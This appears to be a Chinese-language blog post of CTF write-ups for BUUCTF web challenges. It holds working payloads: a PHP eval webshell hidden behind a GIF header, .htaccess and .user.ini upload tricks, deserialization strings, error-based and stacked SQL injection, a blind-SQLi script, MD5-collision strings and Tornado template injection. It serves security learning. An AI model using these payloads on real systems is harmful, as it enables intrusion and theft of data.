



## 0x10.[ACTF2020 新生赛]Upload

和之前的一个一样，改个后缀名就OK。


## 0x11.[ACTF2020 新生赛]BackupFile

可以简单扫下，发现index.php.bak

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```

str弱相等，被转化为整形

传参key=123得到flag

## 0x12.[HCTF 2018]admin

Unicode欺骗：

具体编码可查：https://unicode-table.com/en/search/?q=small+capital 

ᴬᴰᴹᴵᴺ

## 0x13.[极客大挑战 2019]BuyFlag

pay的页面中有:

```
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```



## 0x14.[BJDCTF2020]Easy MD5

有个hint：

```
select * from 'admin' where password=md5($pass,true)
```

看了wp之后说是有个ffifdyop，原理是这个字符串被md5哈希了之后会变成276f722736c95d99e921722cf9ed621c，而这歌字符串前几位正好是：'or'6，永为真。


因此拼接后为，相当于万能密码。

```
select * from 'admin' where password='' or '6xxxxx'
```

之后：

```
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```

这个绕过就有很多方法了，比如`php?a[]=1&b[]=2`或者构造两组md5值开头为0e的值即可绕过。

在之后：

```
 <?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
} 
```

这里把\==换成了\===，0e大法失效，只能数组绕过。

## 0x15.[SUCTF 2019]CheckIn

```
GIF89a? <script language="php">eval($_REQUEST[shell])</script>
```

上传



本题的重点来了，文件包含漏洞，

user.ini。它比.htaccess用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。可谓很广，不像.htaccess有局限性，只能是apache.

什么是.user.ini？

这得从php.ini说起了，php.ini是php的默认配置文件，这些配置中，分为几种：


除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web 根目录（`$_SERVER['DOCUMENT_ROOT']` 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。

在 `.user.ini` 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI 设置可被识别。

>   `.user.ini`是一个能被动态加载的ini文件。也就是说我修改了`.user.ini`后，不需要重启服务器中间件，只需要等待`user_ini.cache_ttl`所设置的时间（默认为300秒），即可被重新加载。

要用到的配置：**`auto_append_file`**：**指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数**

比如：`auto_prepend_file=1.gif`

之后

```
GIF89a? 
auto_prepend_file=1.gif`
```

关于.user.ini的文章：

https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html

## 0x16.[ZJCTF 2019]NiZhuanSiWei

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

知识点：

```
data伪协议写入文件
php://filter用于读取源码
php://input用于执行PHP的代码
```

首先：

`if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")`

data协议通常是用来执行PHP代码，然而我们也可以将内容写入data协议中然后让file_get_contents函数取读取。构造如下：

```
text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
```

当然也可以不需要base64，但是一般为了绕过某些过滤都会用到base64。

```
data://text/plain,welcome to the zjctf
```

接下来是file:

```
file=php://filter/read=convert.base64-encode/resource=useless.php
```

得到：

```
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

参考反序列化基础的文章：https://www.freebuf.com/articles/web/167721.html

构造：

```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php"}
```

最终payload：

```
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

## 0x17.[极客大挑战 2019]HardSQL

```
'or(updatexml(1,concat(0x7e,(SELECT(database())),0x7e),1))%23
得到数据库geek

'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek')),0x7e),1))%23
得到表名：H4rDsq1

or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23
得到字段：id,username,password

查数据：
or(updatexml(1,concat(0x7e,(select(group_concat(id,username,password))from(H4rDsq1)),0x7e),1))%23
只查到了一半：XPATH syntax error: '~1flagflag{b615ddd5-228b-4383-9a'
可以使用right()语句：
or(updatexml(1,concat(0x7e,(select(group_concat(right(password,30)))from(H4rDsq1)),0x7e),1))%23
```

## 0x18.[CISCN2019 华北赛区 Day2 Web1]Hack World

找个字典跑了一下，过滤了一些，有些没过滤。

布尔盲注：

用的网上的脚本：

```python
import requests
url = "http://07113360-9eb3-4e8d-8085-4284220b1372.node3.buuoj.cn/index.php"
res = ""
try:
    for i in range(1, 50):
        for j in range(22, 127):
            payload = "1^if((ascii(substr((select(flag)from(flag)),%d,1))=%d),0,1)" % (i, j)
            #或者：0^(ascii(substr((select(flag)from(flag)),%d,1))=%d)
            data = {"id": payload}
            r = requests.post(url, data)
            #print(payload)
            if "Hello, glzjin wants a girlfriend." in r.text:
                #res += (chr(j))
                print(i,chr(j))
                break
except:
    print("end ....")

print(res)
```

其中，异或的^可以起到or的作用

因为每次跑的时候会漏掉一些，所以将每个都输出，然后将缺少的在打印。


## 0x19.[网鼎杯 2018]Fakebook

robots.txt有源码泄露

可能与ssrf有关

登陆后有SQL注入，对空格有过滤，可以报错注入或者/**/代替空格：

```
?no=-1 or updatexml(1,concat('\~',database(),'\~'),1)#
数据库名：fakebook 

no=11/**/union/**/select/**/1,group_concat(table_name),3,4/**/from/**/information_schema.tables where table_schema='fakebook' #
表名：users

no=11/**/union/**/select/**/1,group_concat(column_name),3,4/**/from/**/information_schema.columns where table_schema='fakebook'and table_name='users' #
字段：no,username,passwd,data 

之后返回的是：
O:8:"UserInfo":3:{s:4:"name";s:6:"123123";s:3:"age";i:0;s:4:"blog";s:13:"www.baidu.com";} 
```


那么进行反序列化：



因为blog是在data，所以：

```
no=-1/**/union/**/select/**/1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:0:"";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

源码中有flag。

## 0x1A.[GXYCTF2019]BabySQli

考点：联合注入添加临时虚拟用户

随便输入后看源码，

>   MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5

先base32，之后是64

>   select * from user where username = '$name'

测试了下是3个字段：

>   union select 1,2,3

当username不是admin的时候报错wrong user，否则报wrong password

将'admin'放在2的位置上报王蓉 password

>   union select 1,'admin',3

mysql当联合查询时，没有的话会在数据库中加入临时的


(实际上应该不用猜，应该是个坑，原题应该有提示密码是md5加密储存的)

猜测语句是这样的:

```
<?php$row;
$pass=$_POST['pw'];
if($row['username']==’admin’){
if($row['password']==md5($pass)){ 
echo $flag; 
}else{ echo “wrong pass!”; 
}}
else{ echo “wrong user!”;}
```

那么可以这样构造：123的md5：202cb962ac59075b964b07152d234b70

于是：adf'union select 1,'admin','202cb962ac59075b964b07152d234b70'

pwd为123


## 0x1B.[网鼎杯 2020 青龙组]AreUSerialz

看了wp才做出来的，确实感觉这道题挺有意思。

首先get传str，每个字符要在32到125之间，之后反序列化。

反序列化时用了\_\_destruct方法：

```php
function __destruct() {
    if($this->op === "2")
        $this->op = "1";
    $this->content = "";
    $this->process();
}
```

如果op为2，赋值为1，溶蚀content赋为空，再之后执行process，这里op与2比较是强比较。

```php
public function process() {
	if($this->op == "1") {
		$this->write();
	} else if($this->op == "2") {
        $res = $this->read();
		$this->output($res);
	} else {
		$this->output("Bad Hacker!");
	}
}
```

如果op是1，进入write，如果是2的话进入output，这里两处都是若比较。

所以说只要领op=2（整形），那么两处都可以绕过，（第一处绕过字符，第二如直接read）。

```php
    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }
```

filename可以控制，接着使用file_get_contents函数读文件，这里可以用php://filter伪协议读文件，然后输出。

但是还有一个问题，\$op,\$filename,\$content这三个都是protected，protected权限的变量序列化的时候会有%00*%00字符，而%00的ASCII编码为0，不能绕过is_valid的检查。

绕过的话，php7.1+的版本对属性类型不敏感，本地序列化的时候可以使用public绕过。

（protected/private类型的属性序列化后产生不可打印字符，public类型则不会。）

```php
<?php
class FileHandler {
    public $op=2;
    public $filename='php://filter/read=convert.base64-encode/resource=flag.php';
    public $content;
}
$a=new FileHandler();
echo serialize($a);
?>
```

总的来说这道题还是很有意思的，学到了很多。

## 0x1C.[MRCTF2020]你传你🐎呢

上传.htaccess，有几种写法：

>   SetHandler application/x-httpd-php

```
<FilesMatch "bbb">
SetHandler application/x-httpd-php
</FilesMatch>
//其中bbb是要包含的文件，都会被当做php来执行
```

>   ```
>   AddType application/x-httpd-php .png
>   ```


大致就上面3种写法吧。

PS：当时一直连不上。。原来是htaccess写成了htacess

然后就社写马上传蚁剑连接就ok了。

## 0x1D.[MRCTF2020]Ez_bypass

第一个绕过有两种绕法，之前的一个绕md5的题中也写了：

第一种：MD5碰撞

>   ?gg=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&id=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

或者

```
$s1 = "%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%6d%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%27%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%66%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%96%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%b3%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%ef%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%df%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%73%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%69%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%93%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%28%1c%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%b9%05%39%95%ab"
$s2 = "%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%6d%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%27%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%66%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%96%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%b3%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%ef%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%5f%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%f3%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%e9%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%13%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%a8%1b%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%39%05%39%95%ab"
$s3 = "%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%ed%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%a7%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%e6%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%16%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%33%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%6f%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%df%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%73%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%69%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%93%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%28%1c%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%b9%05%39%95%ab"
以上3个的字符串都不相等，但是md5值相等。
```

第二种，数组绕过：

>   ?gg[]=1&id[]=1

第二个绕过就是简单的在后面加字符就OK

>    passwd=1234567a

## 0x1E.[GYCTF2020]Blacklist

有2个字段，但是union select 爆出说不能select，那么堆叠查询。

show databases;show tables ;show columns from '表名'；

一共有两个表，words，FlagHere

绕过技巧有3个：

1）修改表名

其中words：show columns from words 后是id和data

而Flag中只有一个flag。

推测是select id,data from words where id='\$id\$'

那么：

```
1.将words表名换成其他的名字
2.将FlagHere换成words表名
3.吧flag这个字段换成data
4.再插入一个id字段
```

```
1';
alter table words rename to words1;
alter table `FlagHere` rename to words;
alter table words change flag id varchar(50);#

然后 1' or 1=1# 将flag打印出来
```

2）预编译

```
PREPARE name from '[my sql sequece]';   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE name;  //删除预定义SQL语句
```

```
SET @tn = 'hahaha';  //存储表名
SET @sql = concat('select * from ', @tn);  //存储SQL语句
PREPARE name from @sql;   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE sqla;  //删除预定义SQL语句
```

比如：

```
1';
SeT@a=’select * from `FlagHere‘;
prepare execsql from @a;
execute execsql;#
#可以使用16进制绕过
```

3）Handler

但是以上方法在这题失效，因为：

>   ```
>   return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
>   ```

可以使用handler查看：

>   1';
>
>    handler FlagHere open;
>
>   handler FlagHere read first;#

## 0x1F.[护网杯 2018]easy_tornado

三个文件：

```
/flag.txt
/welcome.txt
/hints.txt
```

```
/flag.txt
flag in /fllllllllllllag

/welcome.txt
render

/hints.txt
md5(cookie_secret+md5(filename))
```

在hints可以看到:

>    file?filename=/hints.txt&filehash=3c2c74f529451b2c58f5624ce640dfd5
>
>   说明还需要filehash

>   render是python中的一个渲染函数，也就是一种模板，通过调用的参数不同，生成不同的网页 render配合Tornado使用
>
>   根据之前打开文件的url参数分析这个就是filehash的值 想获得flag只要我们在url中传入/fllllllllllllag文件和filehash 经过这段代码处理的值即可关键就在这cookie_secret这块,得想办法获得cookie_secret 
>
>   在tornado模板中，存在一些可以访问的快速对象,这里用到的是handler.settings，handler 指向RequestHandler，而RequestHandler.settings又指向self.application.settings，所以handler.settings就指向RequestHandler.application.settings了，这里面就是我们的一些环境变量
>
>   通过模板注入方式我们可以构造

```
error?msg={{handler.settings}}
```

得到:ab4a6b4a-f87f-449d-9016-1cd76c91c474

然后通过脚本获取hash

```python
import hashlib
cookie_secret = 'ab4a6b4a-f87f-449d-9016-1cd76c91c474'
filename = '/fllllllllllllag'
file_hash = hashlib.md5(filename).hexdigest()
new_filename = cookie_secret + file_hash
print hashlib.md5(new_filename).hexdigest()
```

>   file?filename=/fllllllllllllag&filehash=add6c325a3930e0b3a30602d131fa9ea

得到flag